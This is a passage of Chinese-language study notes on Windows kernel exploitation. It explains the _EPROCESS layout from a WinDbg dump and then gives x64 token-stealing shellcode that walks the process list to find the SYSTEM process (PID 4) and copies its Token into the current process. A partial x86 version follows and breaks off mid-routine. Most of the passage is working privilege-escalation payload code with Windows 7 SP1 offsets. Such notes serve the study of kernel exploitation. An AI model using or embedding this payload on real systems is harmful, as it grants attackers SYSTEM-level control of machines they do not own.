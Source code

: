 `_EPROCESS`的第一项是`_KPROCESS`，因此找到`_KPROCESS`的地址，就相当于找到了`_EPROCESS`的地址，相当于`_EPROCESS`就是一个大结构体，其中的第一域就是`_KPROCESS`（P.S. `_KTHREAD`和`_ETHREAD`也是类似的）

```
0: kd> dt _EPROCESS
ntdll!_EPROCESS
   +0x000 Pcb              : _KPROCESS
   +0x160 ProcessLock      : _EX_PUSH_LOCK
   +0x168 CreateTime       : _LARGE_INTEGER
   +0x170 ExitTime         : _LARGE_INTEGER
   +0x178 RundownProtect   : _EX_RUNDOWN_REF
   +0x180 UniqueProcessId  : Ptr64 Void
   +0x188 ActiveProcessLinks : _LIST_ENTRY
   ...
   +0x208 Token            : _EX_FAST_REF
   ...
```

因此需要覆盖的`Token`就是`0x208`偏移的域，而可以通过遍历`ActiveProcessLinks`获取`active`的进程，且已知系统进程的`PID`为`4`，因此就可以遍历`0x188`的进程链，找到`PID == 4`的进程，然后取出系统进程的`Token`，覆盖到当前进程的`Token`上

#### shellcode

因此`x64`的`shellocde`如下

```assembly
xor rax, rax                        ; Set ZERO
mov rax, [gs:rax + 188h]            ; Get nt!_KPCR.PcrbData.CurrentThread
                                    ; _KTHREAD is located at GS : [0x188]           

mov rax, [rax + 70h]                ; Get nt!_KTHREAD.ApcState.Process     
mov rcx, rax                        ; Copy current process _EPROCESS structure  
mov r11, rcx                        ; Store Token.RefCnt
and r11, 7

mov rdx, 4h                         ; WIN 7 SP1 SYSTEM process PID = 0x4           

SearchSystemPID:
mov rax, [rax + 188h]               ; Get nt!_EPROCESS.ActiveProcessLinks.Flink
sub rax, 188h
cmp [rax + 180h], rdx               ; Get nt!_EPROCESS.UniqueProcessId 
jne SearchSystemPID

mov rdx, [rax + 208h]               ; Get SYSTEM process nt!_EPROCESS.Token
and rdx, 0fffffffffffffff0h
or rdx, r11
mov [rcx + 208h], rdx
```

备份一下`x86`的

```assembly
pushad                              ; Save registers state

; Start of Token Stealing Stub
xor eax, eax                        ; Set ZERO
mov eax, DWORD PTR fs:[eax + 124h]  ; Get nt!_KPCR.PcrbData.CurrentThread
                                    ; _KTHREAD is located at FS : [0x124]

mov eax, [eax + 50h]                ; Get nt!_KTHREAD.ApcState.Process
mov ecx, eax                        ; Copy current process _EPROCESS structure
mov edx, 04h                        ; WIN 7 SP1 SYSTEM process PID = 0x4

SearchSystemPID:
mov eax, [eax + 0B8h]               ; Get nt!_EPROCESS.ActiveProcessLinks.Flink
sub eax, 0B8h
cmp[eax + 0B4h], edx                ; Get nt!_EPROCESS.UniqueProcessId
```